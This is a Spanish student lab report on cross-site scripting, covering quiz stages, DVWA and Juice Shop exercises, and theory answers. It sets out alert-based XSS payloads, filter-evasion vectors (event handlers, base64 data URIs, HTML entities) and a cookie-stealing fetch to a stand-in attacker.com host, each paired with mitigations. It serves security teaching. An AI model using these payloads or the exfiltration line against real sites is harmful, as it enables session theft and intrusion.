# Laboratorio 5. Vulnerabilidades Web
## Covadonga Leguina Roig
## PRÁCTICA 5.3. XSS  (3 puntos)

### PRÁCTICA 5.3.1. XSS prácticos (1 punto)

Desarrolla paso a paso el ejercicio de la práctica donde se muestre claramente que lo estas haciendo tú, y explica qué sucede razonadamente. 
No es solo poner las capturas de pantalla. 
A cada pantalla explica **por qué funciona**, y **cómo podrías evitar** que te hicieran dicho ataque en tu aplicación Web.

https://xss-quiz.int21h.jp
<p style="text-align: justify; color: blue;">
Un ataque XSS es una vulnerabilidad de algunas aplicaciones web que permite inyectar código malicioso y que el navegador lo ejecute. Normalmente se realizan en campos de entrada de datos, comentarios o formularios. Esto ocurre porque no se verifica si los datos introducidos son válidos o no.

<p style="text-align: justify; color: blue;">
Para saber cómo inyectar el código debemos ver cómo está gestionado en el código fuente de la página. Para verificarlo escribo una palabra en el campo de entrada y la busco en el código fuente. En función de cómo esté gestionado tendremos que inyectar de una forma u otra. En el ejemplo se ve como el valor introducido aparece como texto plano lo que nos indica que podemos ejecutar la inyección directamente.




<p style="text-align: justify; font-size: 24px; color: blue;">
Stage 1
<p style="text-align: justify; color: blue;">
En javaScript todo lo que pongamos entre las etiquetas "< script >" va a ser interpretado como "Ejecuta esto", por tanto con alert document.domain obtenemos el domino de la página web en la que nos encontramos. <br> Con "alert" indicamos que muestre una pantalla emergente. De este modo obtenemos el <b>"hola Mundo" </b> que hemos puesto.<br> 



<p style="text-align: justify; color: blue;">
Para avanzar en el reto, inyectamos el código así:<br>
<b>PAYLOAD</b><br>

```
<script>alert(document.domain);</script>
```




<p style="text-align: justify; color: blue;">
<b>Medidas de mitigación:</b> Transformar los símbolos especiales para que no se muestren directamente y para que no sean interpretados directamente por el navegador.

---

<p style="text-align: justify; font-size: 24px; color: blue;">
Stage 2

<p style="text-align: justify; color: blue;">
Vuelvo a introducir una palabra para realizar una búsqueda en el código y así saber cómo realizar el ataque.



<p style="text-align: justify; color: blue;">
Ahora vemos cómo lo que hemos puesto aparece como un atributo dentro de una etiqueta por tanto para inyectarlo necesitamos romper el atributo, lo hacemos cerrándolo <b> "> </b> y añadiendo el código que queremos inyectar a continuación.


<b>PAYLOAD</b>

```
"><script>alert(document.domain);</script>
```



<p style="text-align: justify; color: blue;">
<b>Medidas de mitigación:</b> Escapar los caracteres especiales como " o ' para que no puedan cerrar una etiqueta y romper la estructura del campo y modificar su comportamiento.

---

<p style="text-align: justify; font-size: 24px; color: blue;">
Stage 3
<p style="text-align: justify; color: blue;">
Repito la operación para localizar donde aparece el input y cómo he de inyectarlo.


<p style="text-align: justify; color: blue;">
Encuentro la palabra en texto plano pero seguida de otra, el País que aparece en el desplegable. Si introduzco el payload en el primer campo no hace nada, necesito "escapar" de ese segundo campo. Para ello modifico el campo de búsqueda con el Payload en HTML de la página de este modo para inyectar el payload en el segundo campo, el desplegable:





<p style="text-align: justify; color: blue;">
<b>Medidas de mitigación:</b>  Procesar cada campo por separado y no en una misma línea del HTML. No construir entradas HTML con entradas directas de usuario.

---

<p style="text-align: justify; font-size: 24px; color: blue;">
Stage 4
<p style="text-align: justify; color: blue;">
En este caso tenemos un campo oculto por tanto para inyectar el payload debemos asegurarnos de que los caracteres que inyectamos sean correctamente interpretados. Para ello debemos convertir los caracteres en su equivalente en ASCII (en cuando lo pongo en el código html lo interpreta con los símbolos correspondientes)

<b>PAYLOAD</b>
``` 

&#34;&gt;&lt;script&gt;alert(document.domain);&lt;/script&gt;

o

&#34><script>alert(document.domain)</script>
```



<p style="text-align: justify; color: blue;">
<b>Medidas de mitigación:</b> No confiar en los campos ocultos sólo porque no se vean en la web y sanitizarlos como el resto de campos.

---
<p style="text-align: justify; font-size: 24px; color: blue;">
Stage 5

<p style="text-align: justify; color: blue;">
En este caso encontramos una limitación en función del número de caracteres que acepta el campo, el máximo de caracteres establecido no es suficiente para inyectar nuestro payload.




<p style="text-align: justify; color: blue;">
Para poder realizar nuestro ataque bastará con modificar el campo de longitud para poder realizar el ataque:



<b>PAYLOAD</b>
``` 
"><script>alert(document.domain)</script>
``` 



<p style="text-align: justify; color: blue;">
<b>Medidas de mitigación:</b> Validar el tamaño y contenido del campo en el servidor y no en el navegador y asegurar que sólo se acepta el tipo de dato esperado en cada campo.

---

<p style="text-align: justify; font-size: 24px; color: blue;">
Stage 6

<p style="text-align: justify; color: blue;">
Los <b>eventos</b> son acciones que se ejecutan cuadno interactuamos con la página web: hacer click, pasar el ratón por encima...<br>
En este reto el payload va a estar vinculado al evento que determinemos, en este caso, se lanza cuando pasamos el ratón por encima de la caja de búsqueda. Lo añadimos en el código fuente tras el valor de <b>value</b> o directamente en el cuadro de búsqueda.

<b>PAYLOAD</b>

``` 
Código Fuente:
onmouseover="alert(document.domain)"

o 
Caja de búsqueda:
"onmouseover="alert(document.domain)"
``` 





<p style="text-align: justify; color: blue;">
<b>Medidas de mitigación:</b> No permitir la introducción de atributos HTML ni eventos desde entradas de usuario, tratar todo el contenido introducido por el usuario como texto plano sin permitir que se comporte como HTML o JavaScript.

<br>


---
---
---

### PRÁCTICO 5.3.2. XSS teoría (1 punto)

1. ¿Cuál es la diferencia entre XSS almacenado, reflejado y DOM-Based? Explica cada uno con un ejemplo práctico.
<p style="text-align: justify; color: blue;">
El <b> XSS Almacenado</b> es cuando el código malicioso se guarda en el servidor de forma permanente afectando a los clientes. Por ejemplo Si se almacena en una base de datos, cada vez que un usuario realice una consulta se vería afectado por dicho payload sin saberlo. Es utilizado para robar información de los usuarios o mostrar contenido falso, es muy agresivo ya que afecta a todos los posibles usuarios de un sistema.<br>
<b>Ejemplo</b>: Si alguien pone un post en un foro público que no ha verificado las entradas con un payload que roba las cookies, cada vez que alguien entre para leer el post ejecuta el script directamente

```
<script>window.location='https://login-falso.attacker.com'</script>
```

<p style="text-align: justify; color: blue;">
El <b> XSS Reflejado</b> se realiza a través de una solicitud HTTP en cuanto el servidor lo procesa, se ejecuta en el navegador de la víctima. Por tanto el servidor no lo almacena, el atacante lo envía y cuando la víctima hace click se ejecuta. Es muy utilizado para redirigir a sitios mediante phishing.<br>
<b>Ejemplo</b>: Si un usuario de una web legítima busca un producto y el formulario está manipulado con ese payload, le redirigirá a la web falsa.

```
https://weblegitima.com/buscar?producto=<script>window.location='https://web-falsa.com'</script>

```
<p style="text-align: justify; color: blue;">
El <b> DOM-Based</b> no depende del servidor sino de cómo el JavaScript del navegador interpreta el contenido. El DOM (Document Objet Model) es la estructura interna de una página web en el navegador. JavaScript lo usa para modificar los elementos de la página de tal modo que si inyectamos código malicioso modificará cómo esa página responde pudiendo ejecutar código malicioso, redireccionar al usuario a otra web o robar las cookies de sesión.<br> Estos ataques son difíciles de detectar ya que solo afectan a un único cliente y eludiendo al servidor y los controles que tenga, que siempre serán mejores y mayores que los de los clientes.
<br>
<b>Ejemplo</b>: Si pinchamos en un link que venga con un payload, al pinchar en él el navegador lo interpreta tal cual y lo ejecutar sin revisar si esto era bueno o no.
<br>

<br>

2. ¿Qué papel juega el `Content-Type` y el `Content-Security-Policy` (CSP) en la prevención de ataques XSS? ¿Son suficientes por sí solos?
<p style="text-align: justify; color: blue;">
<b>Content-Type</b> indica en la cabecera de una petición HTTP, qué tipo de contenido va a recibir. Esto evita que un navegador interprete un archivo como no debe.<br>
<b>Content-Security-Policy</b> indica qué contenido está permitido cargar y ejecutar. Especificando el tipo de script que puede ejecutar, desde qué dominios lo puede hacer o si se permiten inline scripts (scripts escritos directamente en HTML).<br>
La correcta configuración de estos valores pueden ayudar a reducir los ataques XSS pero puede no ser suficiente para estar bien protegidos. La falta de sanitización de las entradas podría dejar un hueco para realizar ataques, por tanto en la fase de desarrollo habrá que tener en cuenta esto. Las características de cada web también condicionarán su comportamiento por tanto las directivas CSP deben alinearse a los objetivos de uso de la web lo que en ocasiones puede dejar "puertas abiertas" como por ejemplo si es necesario usar plugins antiguos o servicios desactualizados.

<br>

3. Un atacante introduce el siguiente payload en una entrada de comentario:
    ```html
    <script>alert(document.cookie)</script>
    ```

¿Por qué este vector es tan común, y cómo podría un servidor mal configurado permitirlo?
<p style="text-align: justify; color: blue;">
Con este ataque comprobamos si una página puede ejecutar scripts y si tiene acceso a las cookies, es decir si es vulnerable a ataques XSS. El servidor lo permite porque no sanitiza las entradas, es decir no verifica si lo que el usuario introduce es correcto o puede ser malicioso.
<br>

4. ¿Qué técnicas puede usar un atacante para evadir filtros comunes de XSS, como el filtrado de etiquetas `<script>`? Nombra al menos 3.
<p style="text-align: justify; color: blue;">
Podría evadir los filtros usando otras etiquetas como < img > que permite ejecutar scripts. También podríamos codificar en ASCII la entrada para evitar algún filtro que busque coincidencias exactas de caracteres. Otra técnica sería añadiendo código JavaScript en los atributos de los elementos HTML, usando eventos por ejemplo como onclick, onmouseover o onload que se ejecutan con la interactuación del usuario.

<br>

5. En una aplicación que filtra etiquetas `<script>`, un atacante logra ejecutar este payload:

```html

```
¿Por qué funciona este payload si `<script>` está bloqueado? ¿Qué medidas podrían mitigar este bypass?
<p style="text-align: justify; color: blue;">
Porque al estar en la etiqueta < img > el navegador intenta cargar la imagen en la ubicación x al no existir, dispara el evento onerror y ejecuta el código indicado en el atributo del evento "alert(1)"<br>
Para evitar la ejecución deberíamos escapar de los caracteres especiales mediante una función que lo comprobara previamente, también deberíamos validar dicha entrada usando librerías de sanitización que rechazan todas las entradas que contengan este tipo de atributos. También deberíamos verificar que la respuesta del servidor tenga el Content-Type adecuado para evitar interpretaciones inadecuadas.

<br>

6. ¿Cuál es la diferencia entre sanitizar y escapar entradas de usuario? ¿Cuándo se debe aplicar cada una?
<p style="text-align: justify; color: blue;">
Cuando sanitizamos una entrada lo que hacemos es limpiarla eliminando o modificando lo que no es seguro o no está permitido en las directrices CSP. Esto debería hacerse antes de guardar datos en una base de datos o cuando necesitamos permitir ciertos HTML.<br>
Escapar las entradas de usuario es convertir los caracteres especiales en una forma segura para que el navegador los interprete como texto y no como código. Debería realizarse antes de mostrar los datos del usuario en una página web o cuando sólo necesitamos mostrar texto plano. <br> Es interesante usarlas de forma combinada para evitar ataques, primero sanitizariamos la entrada antes de guardarla y depués escapamos el contenido antes de mostrarlo, sólo si no queremos que se interprete como HTML.
<br>

7. Un campo de búsqueda refleja el `input` del usuario en la página sin escape. ¿Cómo podrías probar si es vulnerable a XSS reflejado? Describe el paso a paso.
<p style="text-align: justify; color: blue;">
Primero identificamos el campo vulnerable escribiendo un texto cualquiera "Cova" y lo buscamos en el HTML de la página, si aparece en texto plano significa que la página es vulnerable. Luego inyectamos un script sencillo,

```
  <script>alert((document.domain)</script>
```
<p style="text-align: justify; color: blue;">
Si muestra una ventana emergente con el dominio de la página, es que es vulnerable y podemos inyectar cualquier script.
<br>

8. ¿Por qué los ataques XSS son particularmente peligrosos cuando el usuario atacado es un administrador o tiene permisos elevados? Da un ejemplo de escenario realista.
<p style="text-align: justify; color: blue;">
Porque podría realizar acciones en nombre de dicho usuario con sus permisos correspondientes, accediendo a datos sensibles y comprometiéndolos. También podría tener acceso a las configuraciones del sistema, poniendo en riesgo la seguridad pudiendo incluso llegar a tomar el control total del mismo. <br>
<b>Ejemplo:</b> Un atacante pone un comentario en un sistema que no verifica las entradas de estos campos de tal forma que si un administrador accede al mismo y lo lee se ejecuta el payload que roba sus cookies de sesión permitiéndole el acceso al sistema. Esto que es enviado al atacante y es usado para autenticarse en el sistema y realizar todas las acciones que quiera con los permisos de dicho administrador: modificar configuraciones, acceder a la información de los usuarios, eliminarlos o robar la información que sea. Además como administrador, el atacante puede borrar las evidencias del delito, eliminando el comentario que incluía el payload y todo el registro de las acciones realizadas.

<br>

9. Explica cómo un ataque XSS puede utilizarse para robar tokens de sesión, y por qué los tokens `HttpOnly` ayudan a prevenirlo.
<p style="text-align: justify; color: blue;">
Si ejecutamos un script que robe el token de sesión como este: 

```
fetch('https://attacker.com/steal?cookie=' + document.cookie);
```
<p style="text-align: justify; color: blue;">
El atacante obtendría la cookie que incluye el identificador de sesión. Con esta información el atacante podría autenticarse suplantando la identidad robada.<br>
HttpOnly es una medida de seguridad que impide que JavaScript pueda acceder a la información de la cookie desde document.cookie. La información de sesión se envía al servidor en cada petición pero no puede ser leída por el intérprete web. De esta forma impedimos que un atacante pueda conseguirla mediante este tipo de ataque. <br> Por tanto HttpOnly no evita los ataques XSS ni el robo de las cookies pero sí ayuda a prevenirlo. Lo ideal es combinar las mitigaciones vistas anteriormente junto a esta para minimizar los riesgos de ataque.

<br>

10. ¿Puede un ataque XSS llevar a la ejecución remota de comandos en el servidor (RCE)? Justifica tu respuesta con un análisis técnico.
<p style="text-align: justify; color: blue;">
En principio no, al menos no de forma directa ya que el ataque XSS se realiza normalmente desde un cliente y tendrían que haber otras vulnerabilidades añadidas que permitieran a un cliente ejecutar código en un servidor. Si dicho ataque afecta a un administrador del sistema sí que podría ejecutar comandos en el servidor ya que, como hemos visto antes, si roba sus cookies podría autenticarse como usuario privilegiado y realizar las acciones que tenga permitidas en el sistema.


<br><br>

---
---
---

### PRÁCTICO 5.3.3. XSS avanzado (1 punto)
<p style="text-align: justify; color: blue;">
Vamos a realizar inyecciones de código JavaScript en páginas vulnerables sin usar la etiqueta script. Para ello haremos uso de vectores alternativos dentro de otros elementos HTML. Realizaremos los ataques en entornos vulnerables como <b>DVWA y Juice Shop</b>.

#### 1. Inyección en atributo `src` (Reflected XSS)
<p style="text-align: justify; color: blue;">
Una inyección <b>Reflected XSS</b> es cuando el dato que introduces en el formulario se refleja inmediatamente en la página de respuesta sin validación ni filtrado adecuado, lo que permite ejecutar código malicioso.

- URL de prueba: `/vulnerabilities/xss_r/`
- Payload:  
  ```html
  
  ```
<p style="text-align: justify; color: blue;">
Con este ataque estamos intentando cargar una imagen desde una URL no válida, al fallar dispara el evento <b>onerror </b> y ejecuta el código que hemos inyectado, en este caso la ventana emergente.
Por tanto el ataque ha sido exitoso, sin la necesidad de usar BurpSuite para interceptar el tráfico.




#### 2. Inyección con `<svg>` (Reflected o Stored)
<p style="text-align: justify; color: blue;">
Este vector de ataque aprovecha la etiqueta svg que puede ejecutar código JavaScript en eventos como <b>onload</b>.

- Payload:  
  ```html
  <svg/onload=alert('SVG XSS')>
  ```
- Contexto: Funciona bien en campos HTML donde SVG no está filtrado.

<p style="text-align: justify; color: blue;">
Para poder inyectar el código malicioso verifico que <b> "onload"</b> se ejecuta cuando por ejemplo carga una imagen, así que modifico el código a inyectar para forzar la carga de una imagen y así poder ejecutar mi código malicioso.

-Payload: 
``` 
html:
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')">
  <image href="https://example.com/image.png" />
</svg>
``` 






<p style="text-align: justify; color: blue">
He seguido este tutorial como referencia:  

[Tutorial de inyecciones XSS](https://www.youtube.com/watch?v=P1I9UGpGdrU)

#### 3: Eventos en input
- Payload:
  ```html
  <input autofocus onfocus=alert('focus')>
  ```
- Consejo: Inyecta en formularios que se autovisan o en comentarios visibles.

<p style="text-align: justify; color: blue;">
Inyecto directamente el payload en la caja de diálogo y al hacer click se ejecuta el payload en nivel <b>HIGH</b>.



#### 4: `href` con `javascript:`
- Payload:
  ```html
  <a href="javascript:alert('XSS')">haz click</a>
  ```
- ¿Funciona en tu navegador? ¿Está desactivado por CSP?

<p style="text-align: justify; color: blue;">
Para poder ejecutar este payload tengo que bajar el nivel a <b>low</b>. Cuando lo inyectamos no se ejecuta directamente, hay que clicar sobre él para que aparezca la ventana emergente. <br>
Para verificar si está siendo desactivado por las CSP inspecciono la petición  pero no encuentro referencias a las Políticas de seguridad.







#### 5. Inyección en `iframe`
- Payload:  
  ```html
  <iframe src="javascript:alert('iframe XSS')">
  ```
- Prueba su ejecución en Juice Shop en el campo de comentarios.

<p style="text-align: justify; color: blue;">
A pesar de intentar inyectar el código correcta, ha sido imposible ejecutarlo.

[Web Soluciones](https://medium.com/@aayushdharwal73/owasp-juice-shop-xss-challenges-88b06a0f59f5)

[Web Soluciones2](https://clouddocs.f5.com/training/community/waf/html/waf111/module0/lab3.html)

#### 6. XSS usando `data:` URI
- Payload:
  ```html
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
  ```
- 📌 Este payload usa Base64 para esconder el script.

<p style="text-align: justify; color: blue;">
Con este payload inyectamos el código html de una web que incrustamos en la petición a través de la etiqueta data. Además escondemos el script codificándolo en Base64. De este modo cargamos una página web desde el propio código. Así se evaden filtros pudiendo cargar un script camuflado engañando al sistema de validación.




#### 7. Encoded entities
- Payload:
  ```html
  
  ```




- 📌 ¿Qué pasa si el filtro solo bloquea “alert” pero no entidades?

<p style="text-align: justify; color: blue;">
Una entidad es una forma oculta de escribir letras. Se utiliza para engañar filtros que buscan palabras directamente. Al codificar la palabra alert con entidades conseguimos que el navegador interprete el código y que el ataque se ejecute. Por tanto si el filtro sólo detecta palabras concretas podemos inyectar código codificándolo a través de entidades como en este caso. 

--- 
<br><br><br>
<p style="text-align: justify; color: blue; font-size: 22px;">
Resumen
<p style="text-align: justify; color: blue;">

|#|Método|Payload usado |Lugar de la inyección |Resultado,¿se ejecutó?|Descripción de efecto| ¿Qué lo hizo funcionar?|
|--|---|---|---|---|---|----|
|1|Inyección en atributo src.Reflected XSS|| DVWA |Sí, se ejecutó mostrando una ventana emergente (alert)|Aparece una alerta en el navegador con el mensaje "Reflected" | El evento onerror se dispara al fallar la carga de la imagen (src=x no es válido)|
|2|Inyección m con svg. Reflected o Stored|< svg xmlns="http://www.w3.org/2000/svg" onload=" alert('XSS')" > <br>< image href="https://example.com/image.png" / >  <br> < /svg >| DVWA | Al intentar cargar la imagen indicada aparece la ventana emergente|Carga el payload al cargar la imagen indicada|El evento `onload` dentro de SVG es válido y se ejecuta automáticamente al cargarse el SVG |
|3|Eventos en input |<input autofocus onfocus=alert('focus')>|DVWA| Ha mostrado la ventana emergente | Evento onfocus| `autofocus` hace que el input se enfoque automáticamente, lo que dispara el evento `onfocus` |
|4|href con javascript|< a href="javascript:alert('XSS')">haz click</a >| DVWA|Sí, al hacer clic en el enlace se mostró la alerta | Se dispara una alerta al hacer clic sobre el texto "haz click"  |La URL `javascript:` permite ejecutar código JS directamente desde el enlace|
|5|inyección en iframe|< iframe src="javascript:alert('iframe XSS')" >| Juice Shop|No, no se ejecutó|--|--|
|6|XSS usando data: URI|< iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" >|DVWA|Sí, se ejecutó mostrando una alerta  |El iframe carga código embebido que contiene un `<script>alert(1)</script>` |La URI `data:` con contenido en base64 permite cargar HTML malicioso directamente |
|7|Encoded entities|< img src=x onerror= & # 97; & # 108; & # 101; & # 114; & # 116;(7) > | DVWA|Sí, se ejecutó mostrando una alerta  |Aparece una alerta igual a `alert(7)` usando entidades numéricas HTML|Los navegadores interpretan las entidades `&#...;` como caracteres válidos en tiempo de ejecución|

<p style="text-align: justify; color: blue;">
<b>NOTA:</b> Los Payloads tienen espacios de más para poder visualizarlos ya que sino el navegador los interpreta.

---

### 5.3.4. Análisis y reflexión

Responde en tu informe final:

- ¿Cuál fue el payload más efectivo? ¿Por qué?
<p style="text-align: justify; color: blue;">
El Payload más efectivo fue este: 

``` 
bash
  "><script>alert(document.domain);</script>
``` 
<p style="text-align: justify; color: blue;">
Pudimos cerrar las comillas directamente del campo donde hemos inyectado, rompiendo la estructura del HTML e insertando directamente la etiqueta < script > con el código malicioso.

- ¿Qué técnicas de evasión probaste?
<p style="text-align: justify; color: blue;">
<b> - Escape de atributos HTML:</b> "> nos permite cerrar un atributo abierto e inyectar código arbitrario<br>
<b> - Codificando HTML:</b>  Sustituimos caracteres por sus equivalentes en ASCII escapando de palabras o símbolos no permitidos<br>
<b> - Uso de eventos:</b> Ejecutamos código sin etiquetas < script > a través de eventos no sanitizados <br>
<b> - Evasión por longitud:</b> Modificamos el campos maxlength para inyectar más caracteres de los permitidos <br>
<b> - Separación entre campos:</b> Inyectamos código en combinaciones de campos.

- ¿Qué filtros detectaste activos?
<p style="text-align: justify; color: blue;">
<b> - Restricción por longitud de campo<br>
<b> - Codificación parcial del input <br> </b>

- ¿Cómo evitarías cada tipo de payload como desarrollador?
<p style="text-align: justify; color: blue;">

|Tipo de Payload|Prevención como desarrollador|
|--|--|
|Reflejo en HTML (Stage 1)	| Escapar todos los caracteres especiales al imprimir en HTML (<, >, ", ')|
|Inyección en atributos (Stage 2)	| Escapar comillas y otros caracteres (", ', &) y usar frameworks que lo hagan por defecto.|
|Concatenación de campos (Stage 3)	|Separar los valores, validar y escapar cada campo individualmente.|
|Campos ocultos (Stage 4)	|Nunca confiar en campos ocultos como seguros; escapar y validar también estos inputs.|
|Longitud limitada (Stage 5) |	Validar tamaño del campo en el servidor, no solo en el cliente. |
|Eventos JavaScript (Stage 6)	| Bloquear el uso de atributos que contengan código (on*) y evitar mostrar datos de usuario directamente en el HTML. |


- ¿Cómo cambiaría el resultado si se aplicara un **CSP restrictivo**?
<p style="text-align: justify; color: blue;"> </b>
Un <b>Content Security Policy (CSP)</b> restrictivo podría haber evitado por completo la ejecución de los payloads, incluso aunque se logre inyectar el código JavaScript. Ya que bloquearía scripts incrustados, como < script >alert(1)< /script > o onmouseover="...". Limitaría fuentes de scripts externos a dominios de confianza. Impediría la ejecución eventos (onclick, onmouseover, etc.). Con un CSP configurado correctamente, los intentos de XSS reflejado habrían sido bloqueados por el navegador.

<p style="text-align: justify; color: blue;"> </b>
<b>Ejemplo:</b>

```
bash
  Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; style-src 'self';
```
